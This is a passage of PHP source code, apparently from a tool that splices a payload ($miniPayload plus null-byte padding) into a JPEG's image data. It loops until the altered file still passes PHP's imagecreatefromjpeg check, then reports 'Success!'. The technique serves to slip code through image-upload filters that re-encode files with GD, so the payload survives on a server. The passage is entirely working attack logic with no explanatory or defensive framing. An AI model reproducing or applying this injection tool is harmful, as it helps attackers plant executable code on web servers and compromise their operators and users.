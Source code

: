 ```
                $outStreamTmp = 
                    substr($outStream, 0, $startPos) . 
                    $miniPayload . 
                    str_repeat("\0",$nullbytePayloadSize) . 
                    substr($outStream, $startPos);
                checkImage('_'.$argv[1], $outStreamTmp, TRUE);
                if($extraBytes !== 0) {
                    while((!$dis->eof())) {
                        if($dis->readByte() === 0xFF) {
                            if($dis->readByte !== 0x00) {
                                break;
                            }
                        }
                    }
                    $stopPos = $dis->seek() - 2;
                    $imageStreamSize = $stopPos - $startPos;
                    $outStream = 
                        substr($outStream, 0, $startPos) . 
                        $miniPayload . 
                        substr(
                            str_repeat("\0",$nullbytePayloadSize).
                                substr($outStream, $startPos, $imageStreamSize),
                            0,
                            $nullbytePayloadSize+$imageStreamSize-$extraBytes) . 
                                substr($outStream, $stopPos);
                } elseif($correctImage) {
                    $outStream = $outStreamTmp;
                } else {
                    break;
                }
                if(checkImage('payload_'.$argv[1], $outStream)) {
                    die('Success!');
                } else {
                    break;
                }
            }
        }
    }
    unlink('payload_'.$argv[1]);
    die('Something\'s wrong');

    function checkImage($filename, $data, $unlink = FALSE) {
        global $correctImage;
        file_put_contents($filename, $data);
        $correctImage = TRUE;
        imagecreatefromjpeg($filename);
        if($unlink)
            unlink($filename);
        return $correctImage;
    }

    function custom_error_handler($errno, $errstr, $errfile, $errline) {
        global $extraBytes, $correctImage;
        $correctImage = FALSE;
        if(preg_match('/(\d+) extraneous bytes before marker/', $errstr, $m)) {
            if(isset($m[1])) {
                $extraBytes = (int)$m[1];
            }
        }
    }

    class DataInputStream {
        private $binData;
```